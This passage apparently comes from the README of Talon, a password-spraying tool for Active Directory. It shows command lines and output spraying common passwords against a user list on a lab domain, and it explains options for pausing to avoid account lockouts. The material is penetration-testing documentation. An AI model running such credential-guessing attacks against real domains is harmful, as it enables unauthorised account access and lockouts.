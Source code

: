 
```
root@kali:~# ./Talon -H 172.14.15.1 -Userfile ValidUsers -D STARLABS.local -P "Frosty20" -sleep 2

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[Root cause: Networking_Error] Networking_Error: AS Exchange Error: failed sending AS_REQ to KDC: failed to communicate with KDC 172.14.15.1
[*] Do you want to continue.[y/n]:
```


### Timing Controls

Talon can perform password guessing against a list of possible passwords in a file using the (`-Passfile`). As this can be VERY DANGEROUS, Talon has controls in place to pause after a certain amount of attempts (`-A`) for a specified time (`-Lockout`). <b>Please note</b> that it is important to know the password policy before using these options as queueing multiple password attempts can lock out accounts if you do not have the Password policy. 


```
./Talon -H 172.16.144.185 -Userfile users -Passfile Passwords -D STARLABS.local -Lockout 45 -A 2 -sleep 1.5

  __________  ________  ___       ________  ________
  |\___    _\\\   __  \|\  \     |\   __  \|\   ___  \
  \|___ \  \_\ \  \|\  \ \  \    \ \  \|\  \ \  \\ \  \
       \ \  \ \ \   __  \ \  \    \ \  \\\  \ \  \\ \  \
        \ \  \ \ \  \ \  \ \  \____\ \  \\\  \ \  \\ \  \
         \ \__\ \ \__\ \__\ \_______\ \_______\ \__\\ \__\
          \|__|  \|__|\|__|\|_______|\|_______|\|__| \|__|
					          (@Tyl0us)


[*] Warning: Selection option will spray multiple passwords and risk locking accounts. Do you want to continue? [y/n]: y

03-10-2022 15:58:21: Using password: Password123
[-]  172.16.144.185 STARLABS.LOCAL\admin:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\cramon:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\hwells:Password123 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ssmith:Password123 = Failed
03-10-2022 15:58:26: Using password: Spring2022
[-]  172.16.144.185 STARLABS.LOCAL\admin:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ballen:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\cramon:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\hwells:Spring2022 = Failed
[-]  172.16.144.185 STARLABS.LOCAL\ssmith:Spring2022 = Failed

Hit timeout period - Sleeping for 45 minutes...
Will resume at 03-10-2022 16:43:35
```
